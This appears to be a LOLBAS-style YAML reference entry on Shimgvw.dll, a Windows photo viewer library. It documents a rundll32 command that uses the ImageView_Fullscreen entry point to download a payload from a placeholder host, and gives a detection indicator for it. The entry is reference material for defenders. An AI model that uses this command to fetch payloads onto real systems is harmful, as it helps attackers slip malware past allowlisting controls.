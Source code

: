 ```yaml
---
Name: Shimgvw.dll
Description: Photo Gallery Viewer
Author: Eral4m
Created: 2021-01-06
Commands:
  - Command: rundll32.exe c:\Windows\System32\shimgvw.dll,ImageView_Fullscreen http://x.x.x.x/payload.exe
    Description: Once executed, rundll32.exe will download the file at the URL in the command to %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE\<random>\payload[1].exe. Can also be used with entrypoint 'ImageView_FullscreenA'.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\shimgvw.dll
  - Path: c:\windows\syswow64\shimgvw.dll
Detection:
  - IOC: Execution of rundll32.exe with 'ImageView_Fullscreen' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479080793003671557
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```


